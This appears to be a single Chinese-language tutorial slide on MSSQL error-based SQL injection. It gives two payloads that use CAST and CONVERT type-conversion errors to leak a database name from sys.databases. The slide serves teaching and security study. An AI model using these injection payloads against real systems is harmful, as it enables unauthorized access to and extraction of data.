

MSSql报错注入
MSSql报错注入的过程
15、其他函数注入：
payload：and 1=(select cast(name as int) from sys.databases where database_id=1)–

payload：and 1=(select convert(int,name) from sys.databases where database_id=1)–

利用cast和convert函数转换数据类型报错进行注入